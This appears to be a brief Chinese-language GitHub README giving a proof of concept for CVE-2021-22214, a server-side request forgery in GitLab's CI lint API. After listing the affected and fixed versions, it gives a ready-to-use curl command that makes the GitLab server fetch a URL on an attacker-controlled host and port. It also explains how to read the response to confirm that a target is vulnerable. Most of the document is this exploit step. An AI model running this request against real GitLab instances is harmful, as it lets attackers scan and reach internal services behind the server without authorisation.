


# CVE-2021-22214 gitlab ssrf

### 1、影响版本

产品Gitlab

影响版本：从 10.5 开始的所有版本

安全版本：官方当前最新的 13.12.2, 13.11.5 和 13.10.5

### 2、POC

```
curl -s --show-error -H 'Content-Type: application/json' https://example.gitlab.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://xx.xxx.xx.xx:port/api/v1/targets?test.yml"}'
```

### 3、复现

这里返回包不是4xx一般就是存在



服务器收到请求



